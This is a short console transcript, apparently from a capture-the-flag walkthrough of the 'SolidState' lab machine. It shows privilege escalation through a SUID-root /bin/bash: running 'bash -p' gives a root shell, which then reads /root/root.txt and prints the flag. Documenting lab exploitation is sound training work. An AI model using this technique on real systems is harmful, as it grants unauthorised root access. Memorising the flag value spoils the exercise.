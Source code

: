 ```console
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ bash -p
bash -p
bash-4.4# whoami
whoami
root
bash-4.4# cat /root/root.txt
cat /root/root.txt
4ea15b06b3c027ecfd661b3580dddd9f
```
